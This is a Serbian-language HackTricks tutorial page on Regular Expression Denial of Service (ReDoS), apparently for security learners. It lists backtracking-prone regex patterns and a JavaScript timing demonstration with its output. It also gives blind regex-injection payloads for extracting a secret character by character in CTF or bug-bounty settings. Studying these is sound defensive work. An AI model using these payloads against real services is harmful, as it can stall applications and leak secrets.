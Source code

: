# Regular expression Denial of Service - ReDoS

## Regular Expression Denial of Service - ReDoS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Regular Expression Denial of Service (ReDoS)

**Regular Expression Denial of Service (ReDoS)** se dešava kada neko iskoristi slabosti u načinu rada regularnih izraza (način pretrage i uparivanja obrazaca u tekstu). Ponekad, kada se koriste regularni izrazi, mogu postati veoma spori, posebno ako se komad teksta sa kojim rade povećava. Ova sporost može postati toliko loša da se brzo povećava čak i sa malim povećanjem veličine teksta. Napadači mogu iskoristiti ovaj problem da bi napravili program koji koristi regularne izraze da prestane pravilno raditi na duže vreme.

### Problematski Regex Naivni Algoritam

**Pogledajte detalje na** [**https://owasp.org/www-community/attacks/Regular\_expression\_Denial\_of\_Service\_-\_ReDoS**](https://owasp.org/www-community/attacks/Regular\_expression\_Denial\_of\_Service\_-\_ReDoS)

### Zli Regex-i <a href="#evil-regexes" id="evil-regexes"></a>

Zli obrazac regularnog izraza je onaj koji može **zaglaviti na pravljenom unosu i izazvati DoS**. Zli regex obrasci obično sadrže grupisanje sa ponavljanjem i ponavljanje ili alternaciju sa preklapanjem unutar ponovljene grupe. Neki primeri zlih obrazaca uključuju:

* (a+)+
* (\[a-zA-Z]+)\*
* (a|aa)+
* (a|a?)+
* (.\*a){x} za x > 10

Svi ovi su ranjivi na unos `aaaaaaaaaaaaaaaaaaaaaaaa!`.

### ReDoS Payloadi

#### Izvlačenje Stringa putem ReDoS-a

U CTF-u (ili bug bounty) možda **kontrolišete Regex sa kojim se uparuje osetljiva informacija (flag)**. Tada, može biti korisno da **stranica zamrzne (timeout ili duže vreme obrade)** ako se **Regex upari** i **ne ako se ne upari**. Na ovaj način ćete moći **izvlačiti** string **po karakter po karakter**:

* U [**ovom postu**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) možete pronaći ovaj ReDoS pravilo: `^(?=<flag>)((.*)*)*salt$`
* Primer: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
* U [**ovom writeup-u**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html) možete pronaći ovaj: `<flag>(((((((.*)*)*)*)*)*)*)!`
* U [**ovom writeup-u**](https://ctftime.org/writeup/25869) je korišćeno: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

#### ReDoS Kontrolisanje Unosa i Regex-a

Sledeći su primeri **ReDoS-a** gde **kontrolišete** i **unos** i **regex**:

```javascript
function check_time_regexp(regexp, text){
var t0 = new Date().getTime();;
new RegExp(regexp).test(text);
var t1 = new Date().getTime();;
console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
[
//  "((a+)+)+$",  //Eternal,
//  "(a?){100}$", //Eternal
"(a|a?)+$",
"(\\w*)+$",   //Generic
"(a*)+$",
"(.*a){100}$",
"([a-zA-Z]+)*$", //Generic
"(a+)*$",
].forEach(regexp => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```

### Alati

* [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
* [https://devina.io/redos-checker](https://devina.io/redos-checker)

### Reference

* [https://owasp.org/www-community/attacks/Regular\_expression\_Denial\_of\_Service\_-\_ReDoS](https://owasp.org/www-community/attacks/Regular\_expression\_Denial\_of\_Service\_-\_ReDoS)
* [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
* [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html)
* [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
